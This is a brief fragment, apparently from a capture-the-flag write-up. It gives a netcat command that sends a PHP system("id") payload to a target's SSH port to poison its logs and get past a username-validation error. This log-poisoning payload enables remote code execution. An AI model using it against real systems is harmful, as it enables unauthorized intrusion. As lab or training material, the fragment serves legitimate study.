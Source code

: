 You can also use:

{ echo "<?php system(\"id\") ?>"; sleep 1; } | nc 10.10.235.157 22

to by pass error remote username contains invalid characters

